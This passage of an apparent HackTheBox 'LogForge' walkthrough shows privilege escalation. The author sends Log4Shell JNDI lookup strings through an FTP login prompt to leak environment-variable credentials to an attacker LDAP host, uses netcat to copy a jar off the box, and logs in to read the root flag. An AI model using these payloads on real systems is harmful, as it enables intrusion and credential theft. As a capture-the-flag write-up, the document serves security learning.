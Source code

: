 # # `Enumeartion`-

Now that we have access to the tomcat user, we can review port `8080` that showed as filtered on nmap.

```html
tomcat@LogForge:/home/htb$ curl localhost:8080
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>Ultimate Hacking Championship</title>
<style>
body {
        background-image: url("images/logo.png");
        background-size: contain;
    background-repeat: no-repeat;
        background-color: #0c1f3b;
}
.main {
        display: flex;
        flex-direction: column;
        justify-content: center;
        text-align: center;
        line-height: 200px;
        color: #ffffff;
        font-size: 80px;
}
</style>
</head>
<body>

<div class="main">
<h1></h1>
<h2></h2>
</div>
</body>
</html>
```

It's just the Tomcat,the webpage we encountered earlier. 

There was one more port 21(ftp) that showed up in nmap lets check that out -

```bash
tomcat@LogForge:/home/htb$ netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      840/java            
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

Let’s run the `ps` command and grep for `ftp` -

```bash
tomcat@LogForge:/home/htb$ ps -aux | grep 'ftp'
root         991  0.1  2.3 3581376 95896 ?       Sl   06:18   0:47 java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
tomcat     37016  0.0  0.0   3592  2836 pts/0    S+   18:16   0:00 ftp localhost
tomcat     37911  0.0  0.0   5192   732 pts/1    S+   18:48   0:00 grep ftp
```

In the cmd line argument we see a .jar file called `/root/ftpServer-1.0-SNAPSHOT-all.jar`, where java seems to be running an ftp server. We can quickly check if it’s vulnerable to log4shell as well.

```bash
tomcat@LogForge:/home/htb$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.127:9001/file}
```

Our netcat -

```bash
root@napster:~/Documents/HTB/LogForge# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.11.138] 57194
0
 `
```

And we get a connection back.

I could try using `ysoserial` again, but this application (which I can reverse and see without having to try) isn’t using any of the libraries associated with any of the gadgets, so it can’t succeed. There may be a way to generate a full Java class file to send back, but that is [disabled in recent version of Java](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)

So lets transfer the .jar file to our local machine -

```bash
tomcat@LogForge:/home/htb$ locate ftpServer-1.0-SNAPSHOT-all.jar                                                                        
/ftpServer-1.0-SNAPSHOT-all.jar                                                                                                         
tomcat@LogForge:/home/htb$ cd /                                                                                                         
tomcat@LogForge:/$ ls                                                                                                                   
bin    dev                             home   lib64   mnt   root  srv  usr
boot   etc                             lib    libx32  opt   run   sys  var
cdrom  ftpServer-1.0-SNAPSHOT-all.jar  lib32  media   proc  sbin  tmp
```

Remote Machine:

```bash
tomcat@LogForge:/$ nc 10.10.14.127 6969 < ftpServer-1.0-SNAPSHOT-all.jar 
^C
tomcat@LogForge:/$ md5sum ftpServer-1.0-SNAPSHOT-all.jar 
abd783cb9ebfb7d23a8842ab2ac48dae  ftpServer-1.0-SNAPSHOT-all.jar
```

Kali/Local Machine:

```bash
root@napster:~/Documents/HTB/LogForge# nc -nvlp 6969 > ftpServer.jar
listening on [any] 6969 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.11.138] 49018
root@napster:~/Documents/HTB/LogForge# ls
ftpServer.jar  gobuster.txt  LogForge  nmap  payload.ser
root@napster:~/Documents/HTB/LogForge# md5sum ftpServer.jar 
abd783cb9ebfb7d23a8842ab2ac48dae  ftpServer.jar
```

#### `Interacting` -

To interact with the .jar file we will use [jd-gui](https://github.com/java-decompiler/jd-gui/releases)

```bash
root@napster:~/Documents/HTB/LogForge# jd-gui ftpServer.jar
```

![[Pasted image 20220107142133.png]]


On further exploring we find out -

![[Pasted image 20220107143051.png]]

The valid username and password are stored in environment variables.

Since we know that this FTP server is vulnerable to log4j, we can pass these env variables in the JNDI exploit string and try to exfil this data over the network (JNDI will perform lookups for these values and substitute it for us). We can then use Wireshark to sniff this out from the pcap.

I’ll build a JNDI string that exfils the `ftp_user` environment variable:

```bash
${jndi:ldap://10.10.14.127:1389/ftp_user:${env:ftp_user}}
```

Start your wirehark and send the payload.

```bash
tomcat@LogForge:/$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.127:1389/ftp_user:${env:ftp_user}}
530 Not logged in
Login failed.
Remote system type is FTP.
```

Filter wireshark packet by `tcp.port == 1389` and you will get - 

![[Pasted image 20220107145954.png]]

`ftp_user:ippsec`

Now do it for the `ftp_password` -

```bash
tomcat@LogForge:/$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ${jndi:ldap://10.10.14.127:1389/ftp_password:${env:ftp_password}}
530 Not logged in
Login failed.
Remote system type is FTP.
ftp> exit
221 Closing connection
```

On wireshark -

![[Pasted image 20220107151238.png]]

`ftp_password:log4j_env_leakage`

##  `Ftp Login` -

So our final ftp credential will be -

`ippsec:log4j_env_leakage`

```bash
tomcat@LogForge:/$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): ippsec
331 User name okay, need password
Password:
230-Welcome to HKUST
230 User logged in successfully
Remote system type is FTP.
ftp> ls
200 Command OK
125 Opening ASCII mode data connection for file list.
.profile
.ssh
snap
ftpServer-1.0-SNAPSHOT-all.jar
.bashrc
.selected_editor
run.sh
.lesshst
.bash_history
root.txt
.viminfo
.cache
226 Transfer complete.
ftp> get root.txt
local: root.txt remote: root.txt
local: root.txt: Permission denied
```

The command `get root.txt` will fail as we do not have write permission in the root directory. We can change into /tmp directory using `lcd` and then issue the get command. We can now view the root.txt flag -

```bash
ftp> lcd /tmp
Local directory now /tmp
ftp> get root.txt 
local: root.txt remote: root.txt
200 Command OK
150 Opening ASCII mode data connection for requested file root.txt
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 File transfer successful. Closing data connection.
33 bytes received in 0.00 secs (631.8934 kB/s)
ftp> exit
221 Closing connection
tomcat@LogForge:/$ cd /tmp/
tomcat@LogForge:/tmp$ cat root.txt 
5887826cef8a055a8f21db719d5e9073
```